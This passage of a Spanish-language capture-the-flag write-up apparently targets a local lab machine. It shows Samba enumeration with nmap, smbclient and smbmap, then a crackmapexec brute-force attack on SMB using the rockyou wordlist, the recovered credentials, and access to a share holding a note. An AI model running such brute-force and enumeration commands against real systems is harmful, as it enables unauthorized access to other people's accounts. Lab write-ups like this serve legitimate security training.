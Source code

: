 Procedemos a detectar la version de samba:
```bash
nmap -p 139,445 -sV --script smb-os-discovery 172.17.0.2

PORT    STATE SERVICE     VERSION
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
```

Listando recursos compartido obtuvimos el mismo resultado que con la herramienta `Enum4Linux`
```bash
smbclient -L //172.17.0.2/ -N
```

Enumerando servicios con usuario vacio no obtuvimos nada:
```bash
smbmap -H 172.17.0.2 -u '' -p ''
```

## Fuerza bruta `crackmapexec`
Realizamos un ataque por fuerza bruta al protocolo **smb** para encontrar credenciales:
```bash
crackmapexec smb 172.17.0.2 -u "smbuser" -p /usr/share/wordlists/rockyou.txt
```
### Credenciales Encontradas
Obtenemos lo siguiente:
```bash
SMB         172.17.0.2      445    66DBA75CFB3B     [+] 66DBA75CFB3B\smbuser:fuckit 
```

Ahora que tenemos crecenciales procedemos a conectarlos al servicio:
```bash
smbclient //172.17.0.2/share_secret_only -U "smbuser"%"fuckit"
```

Enumaremos los recursos compartidos:
```bash
dir
```

Procedemos a descargar el archivo que  contiene la carpteta: **share_secret_only**
```bash
share_secret_only
```

Revisando el contenido del archivo: **note.txt**
```bash
readbetter
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Probando como contrasena `readbetter` no obtuvimos exito, asi que lanzamos un ataque de fuerza bruta el cual tampoco tuvimos exito.
